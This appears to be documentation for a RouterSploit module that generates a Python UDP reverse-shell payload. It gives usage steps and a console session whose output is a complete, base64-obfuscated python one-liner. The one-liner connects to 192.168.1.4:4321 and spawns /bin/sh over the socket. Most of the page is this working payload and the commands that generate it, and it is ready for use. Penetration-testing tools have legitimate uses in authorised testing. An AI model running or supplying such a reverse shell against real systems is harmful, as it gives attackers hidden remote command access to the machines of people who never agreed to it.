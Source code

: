 ## Description

Module generates payload that creates interactive udp reverse shell by using python one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/python_reverse_udp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates python udp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/python_reverse_udp
rsf (Python Reverse UDP One-Liner) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Python Reverse UDP One-Liner) > set lport 4321
[+] lport => 4321
rsf (Python Reverse UDP One-Liner) > run
[*] Running module...
[*] Generating payload
python -c "exec('aW1wb3J0IG9zCmltcG9ydCBwdHkKaW1wb3J0IHNvY2tldApzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsIHNvY2tldC5TT0NLX0RHUkFNKQpzLmNvbm5lY3QoKCcxOTIuMTY4LjEuNCcsNDMyMSkpCm9zLmR1cDIocy5maWxlbm8oKSwgMCkKb3MuZHVwMihzLmZpbGVubygpLCAxKQpvcy5kdXAyKHMuZmlsZW5vKCksIDIpCnB0eS5zcGF3bignL2Jpbi9zaCcpOwpzLmNsb3NlKCkK'.decode('base64'))"
```
